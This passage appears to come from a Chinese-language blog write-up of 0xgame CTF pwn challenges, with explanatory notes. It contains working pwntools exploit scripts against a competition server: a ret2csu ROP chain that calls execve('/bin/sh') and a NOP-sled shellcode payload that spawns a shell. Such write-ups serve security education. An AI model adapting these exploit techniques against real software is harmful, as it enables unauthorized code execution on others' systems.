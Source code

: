 题目中发现了execve的got表

ret2csu就是用loc_4013B6的gadget将需要的参数压入r12,r13,r14,r15

公式是：rbx=0, rbp=1, r12=args1, r13=args2, 

r14=args4, r15=execve.got, last = loc_4013A0

这样我们就可以通过loc_4013B6和loc_4013A0调用execve函数了

```
from pwn import *
#io = process('./pwn5')
io = remote('47.97.58.52',40005)
elf = ELF('./pwn5')
io.send(b'/bin/sh\x00')
payload = b'A'*14 + b'\x00'*2 + b'B'*8 + p64(0x4013BA) + p64(0) + p64(1) + p64(0x404090) + p64(0) + p64(0) + p64(0x404038) + p64(0x4013A0) + b'A'*56
#gdb.attach(io)
#pause()
io.send(payload)
io.interactive()
```

# 0xgame week2

难度上来一点点，确实遇到了棘手一点的题，主要是代码总是不知道为什么就报错，这也算我的一个痛点把

#### [Week 2] Shellcode-lv0

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-15-1024x632.png" alt="img" style="zoom:50%;" />

其实这个随机数没啥用，我们只需要在payload右边填满\x90(NOP），这样程序执行流就会被“滑下来”，多试几次就通了

```
from pwn import *
context(os='linux',arch='amd64')
#io = process('./pwn00')
io = remote('47.97.58.52',42012)
payload = asm(shellcraft.amd64.sh())
print(len(payload))
payload = payload.rjust(0x100,b'\x90')
io.send(payload)
#gdb.attach(io)
#pause()
io.interactive()
```

#### [Week 2] Shellcode-lv1

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-16-1024x607.png" alt="img" style="zoom:50%;" />

不能使用execve，但是可以ORW一把梭

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/Screenshot-from-2024-10-17-19-53-22.png" alt="img" style="zoom:80%;" />
